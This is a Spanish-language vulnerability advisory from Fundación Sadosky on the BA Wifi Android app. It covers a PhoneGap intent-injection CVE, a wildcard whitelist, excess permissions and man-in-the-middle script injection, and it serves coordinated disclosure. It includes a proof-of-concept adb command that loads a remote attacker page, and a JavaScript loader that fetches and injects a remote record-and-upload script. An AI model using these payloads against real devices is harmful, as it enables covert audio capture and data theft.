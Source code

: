 
# Vulnerabilidades en BA Wifi para Android


## 1. Información del reporte

**Título:** Vulnerabilidades en BA Wifi para Android

**Reporte ID:** STIC-2015-0115

**Reporte URL:** [http://www.fundacionsadosky.org.ar/publicaciones-2](http://www.fundacionsadosky.org.ar/publicaciones-2)

**Fecha de publicación:** 2015-03-01

**Fecha de última actualización:** 2015-11-26

**Fabricantes contactados:** Gobierno de la Ciudad de Buenos Aires

**Modo de publicación:** Coordinado



## 2. Información de vulnerabilidades

**Clase:** Inyección de código [[http://cwe.mitre.org/data/definitions/94.html](http://cwe.mitre.org/data/definitions/94.html)]

**Impacto:** Perdida de datos

**Remotamente explotable:** Si

**Localmente explotable:** Si

**Identificador CVE:** N/A



## 3. Descripción de vulnerabilidad

La aplicación para Android BA Wifi [1] del Gobierno de La Ciudad de Buenos Aires, permite localizar las conexiones Wifi libres del Gobierno de la Ciudad por comunas, por puntos de interés o por ubicación. Según estadística del mercado de aplicaciones Google Play, a febrero de 2015 fue instalada entre 10.000 y 50.000 veces.
 
La aplicación fue desarrollada usando Apache Cordova[2] (conocido también como PhoneGap), un framework de código abierto que permite construir aplicaciones para dispositivos móviles a partir de tecnología web standard. El framewok embebe en la aplicación móvil un motor de navegador web (conocido como WebView) adaptado a la características del dispositivo, para que el usuario pueda visualizar el contenido de una aplicación web. Este mecanismo permite a un desarrollador incorporar a dispositivos móviles, rápidamente y con poco esfuerzo de adaptación, aplicaciones web ya existentes o desarrolladas para otras plataformas.
 
El framework utilizado por la aplicación utiliza de WebView customizados para que un usuario pueda visualizar su contenido web. El problema de estas vistas es que para aumentar la usabilidad de la aplicación, se rompe el sandbox de un browser habitual, permitiendo que un script dentro del contenido interactúe con componentes del sistema. El framework de Cordova permite correr código Java embebido a través de interfaces definidas por el mismo. Debido al _target-SDK_ de BA WiFi, en dispositivos con versiones anteriores a 4.4.4, Javascript malicioso inyectado puede llegar a correr código nativo arbitrariamente. Debido a que la aplicación posee más permisos de los necesarios (grabar audio y video, capturar fotos, recibir SMS, leer y escribir contactos y en la memoria externa), Javascript malicioso podría a llegar a realizar cualquiera utilizar estas funcionalidades, sin importar la versión de Android del dispositivo.
 
Como la aplicación intenta obtener las direcciones desde la ubicación actual del dispositivo a las de las redes abiertas de forma insegura, es posible inyectar Javascript malicioso por cualquier atacante en la red conectada o que se encuentre en la ruta al servidor.  
 
La configuración utilizada de Apache Cordova/PhoneGap es también insegura. Permite a la aplicación conectarse a cualquier dominio y no solo al dominio donde se encuentra el servidor, esto permite al atacante forzar a la aplicación a acceder a un servidor remoto posiblemente malicioso. La segunda razón, es que expone todos los plugin que permiten acceder a un recurso del celular desde Javascript. La aplicación debería sólo aquellos plugins que son necesitados para su correcto funcionamiento, en este caso geolocalización y acceso a internet. 


## 4. Paquetes vulnerables

* Dispositivos corriendo la versión 1.1 o versiones anteriores.

## 5. Información y soluciones del fabricante
 
 El fabricante actualizó la aplicación el 10 de abril de 2015 y la versión 2.0 soluciona los problemas mencionados.


## 6. Créditos

Las vulnerabilidades fueron descubiertas e investigadas por Joaquín Rinaudo. La publicación de este reporte fue coordinada por Programa Seguridad en TIC. 

## 7. Descripción técnica

BA Wifi utiliza la versión de PhoneGap 2.3.0 que es vulnerable a CVE-2014-3500 [3] permitiendole a otras aplicaciones cambiar la página de inicio de la aplicación por una con contenido malicioso a través de un Intent que lleve un parámetro extra con referencia al contenido bajo la clave _url_. 
  
La correcta configuración del framework podría llegar a bloquear dicho ataque cuando se restringen los dominios a los cuales la aplicación se puede conectar a través del archivo de configuración _res/xml/config.xml_. Sin embargo, BA Wifi permite a la aplicación acceder a cualquier dominio dado a que para filtrar los accesos utiliza un comodín.
  
Dentro de este archivo de configuración se encuentran también listados los plugins del framework de PhoneGap utilizados. Muchos de estos plugins incluidos en BA Wifi no son necesarios para su funcionamiento. Por ejemplo, _Media_ permite reproducir y grabar audio desde Javascript.  _ContactManager_ permite el manejo de los contactos del dispositivo y _Capture_ permite capturar fotos y videos. Ninguno de estos módulos son  utilizado por BA Wifi pero permitirían que atacantes que lleguen a comprometer la aplicación puedan utilizarlos. Además de incluir estos plugins, la aplicación necesita pedir los permisos necesarios de Android para poder utilizar estos recursos. Sucede que BA Wifi es una aplicación sobreprivilegiada, es decir, requiere más permisos de los que utiliza. Para poder ser instalada, un usuario tiene que permitir el acceso a la aplicación a sus contactos, a la cámara, permitir grabar audio y video, recibir SMS, leer y escribir en la memoria externa además de los permisos que si podrían son utilizados como acceso a su ubicación e internet.  
  
Como prueba de concepto que la aplicación es vulnerable a CVE-2014-3500 se puede enviar el siguiente comando a través de adb (Android Debug Bridge) que simularía ser una aplicación que envía un Intent malicioso que inyecta Javascript utilizando el módulo _Media_[4] logrando capturar audio.

_ adb shell am start -n ar.gob.ba.bawifi/.bawifi --es url "https://googledrive.com/host/0B0f57xoYl_BFOG5FMEhpc3AzckU/testing.html"_
BA Wifi intenta obtener el recorrido a los lugares donde hay redes abierta a partir de la ubicación del dispositivo. Para ello, se envía un pedido HTTP a _http://recorridos.usig.buenosaires.gob.ar/2.0/consultar_recorrido_. Este pedido devuelve un Javascript (originalmente un Callback) que se corre en un contexto de un iframe dentro de la ventana principal de la aplicación. Dado a que el pedido se realiza mediante transporte inseguro, atacantes podrían realizar Man-in-the-Middle e inyectar su propio Javascript. Nuevamente, dado a que Phonegap utiliza interfaces que conectan Java con Javascript, es posible acceder a información privada del usuario a través de estas inyecciones de código. Por ejemplo, el siguiente código inyectado al pedido permite grabar audio y subirlo a un servidor malicioso. Este inyecta al documento del padre con un tag de _script_ similar al del ejemplo anterior. 

```
    function loadjsfile(filename){

    var xhrObj = new XMLHttpRequest();
    // open and send a synchronous request
    xhrObj.open('GET', filename, false);
    xhrObj.send('');
    // add the returned content to a newly created script tag
    var se = document.createElement('script');
    se.type = "text/javascript";
    se.charset = "UTF-8";
    se.text = xhrObj.responseText;
    alert(xhrObj.responseText);

    parent.document.getElementsByTagName('head')[0].appendChild(se);
 
    }

    loadjsfile("http://yourjavascript.com/1212011542/cordova-record-and-upload.js"); 


```

Por último, inyectar código Javascript permitiría ejecutar código arbitrariamente en dispositivos con versiones corriendo anteriores a la 4.4.4 dado que la aplicación cuenta un _targetSDK_ menor a 17 lo permite que se pueda utilizar Java Reflection para acceder a otras clases que no sean la expuesta a través de la interface con _addJavascriptInterface_. A partir de la versión 4.4.4, el motor que implementa Webview bloquea el uso de Java Reflection [5].


## 8. Cronología del reporte

* **2015-04-10:** 
          Se publica una actualización que soluciona los problemas mencionados.
        
* **2015-11-26:** 
          Se publica el reporte de seguridad.
        

## 9. Referencias

[1] [https://play.google.com/store/apps/details?id=ar.gob.ba.bawifi](https://play.google.com/store/apps/details?id=ar.gob.ba.bawifi)

[2] [http://cordova.apache.org](http://cordova.apache.org)

[3] [https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-3500 ](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-3500 )

[4] [http://docs.phonegap.com/en/edge/cordova_media_media.md.html](http://docs.phonegap.com/en/edge/cordova_media_media.md.html)

[5] [https://code.google.com/p/chromium/issues/detail?id=359528 ](https://code.google.com/p/chromium/issues/detail?id=359528 )

## 10. Acerca Fundación Dr. Manuel Sadosky

La Fundación Dr. Manuel Sadosky es una institución público privada cuyo objetivo es favorecer la articulación entre el sistema científico – tecnológico y la estructura productiva en todo lo referido a la temática de las Tecnologías de la Información y la Comunicación (TIC). Creada a través del Decreto Nro. 678/09 del Poder Ejecutivo Nacional, la Fundación es presidida por el ministro de Ciencia, Tecnología e Innovación Productiva. Sus vicepresidentes son los presidentes de las cámaras más importantes del sector TIC: CESSI (Cámara de Empresas de Software y Servicios Informáticos) y CICOMRA (Cámara de Informática y Comunicaciones de la República Argentina). Para más información visitar: [http://www.fundacionsadosky.org.ar](http://www.fundacionsadosky.org.ar)

## 11. Derechos de autor

El contenido de este reporte tiene copyright (c) 2014 Fundación Sadosky y se publica bajo la licencia Creative Commons Attribution Non-Commercial Share-Alike 4.0: [http://creativecommons.org/licenses/by-nc-sa/4.0/](http://creativecommons.org/licenses/by-nc-sa/4.0/)
